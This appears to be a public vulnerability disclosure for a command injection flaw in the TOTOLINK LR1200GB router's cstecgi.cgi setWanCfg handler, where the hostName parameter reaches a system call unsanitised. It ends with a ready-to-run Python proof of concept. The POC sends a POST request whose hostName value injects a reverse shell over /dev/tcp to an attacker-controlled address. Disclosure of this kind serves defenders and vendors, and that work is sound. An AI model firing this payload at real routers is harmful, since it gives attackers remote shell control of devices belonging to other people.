 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setWanCfg` handler function of  `cstecgi.cgi`. When the value of `proto` parameter !=6,
the value of the `hostName` parameter will be spliced ​​into the `echo '%s' > /pro....` and be excuted by `doSystem` function, which allows an attacker to excute any command.


`proto` parameter:

![code2](./code2.png)

`hostName` parameter:

![code1](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "proto": "9",
    "hostName": "';sh -i >& /dev/tcp/192.168.109.129/9001 0>&1;#",
    "switchOpMode": "1",
    "topicurl": "setWanCfg",
    "token": "00000000000000000000000000000000"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)
